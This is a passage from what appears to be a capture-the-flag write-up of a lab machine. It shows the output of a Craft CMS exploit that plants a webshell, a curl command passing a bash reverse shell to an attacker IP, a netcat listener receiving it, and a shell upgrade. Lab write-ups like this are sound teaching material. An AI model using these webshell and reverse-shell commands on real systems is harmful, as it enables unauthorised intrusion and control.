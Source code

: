 ![image-20240418101739697](/img/image-20240418101739697.png)

The rest of the script is a loop to take in commands, pass them to the webshell, and print the result.

It works very nicely:

```

oxdf@hacky$ python craft-cms.py http://surveillance.htb
[+] Executing phpinfo to extract some config infos
temporary directory: /tmp
web server root: /var/www/html/craft/web
[+] create shell.php in /tmp
[+] trick imagick to move shell.php in /var/www/html/craft/web

[+] Webshell is deployed: http://surveillance.htb/shell.php?cmd=whoami
[+] Remember to delete shell.php in /var/www/html/craft/web when you're done

[!] Enjoy your shell

> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

### Shell

Through any of these methods I’ll get a webshell. To upgrade that to a reverse shell, I’ll pass a simple [bash reverse shell](https://www.youtube.com/watch?v=OjkVep2EIlw) to the webshell:

```

oxdf@hacky$ curl http://surveillance.htb/0xdf.php --data-urlencode 'cmd=bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"' -x http://127.0.0.1:8080

```

This hangs, but at listening `nc`:

```

oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.245 48910
bash: cannot set terminal process group (1089): Inappropriate ioctl for device
bash: no job control in this shell
www-data@surveillance:~/html/craft/web$ 

```

I’ll upgrade my shell using the [standard PTY trick](https://www.youtube.com/watch?v=DqE6DxqJg8Q):

```

www-data@surveillance:~/html/craft/web$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
www-data@surveillance:~/html/craft/web$ ^Z
[1]+  Stopped                 nc -lnvp 443
oxdf@hacky$ stty raw -echo; fg
nc -lnvp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
www-data@surveillance:~/html/craft/web$

```
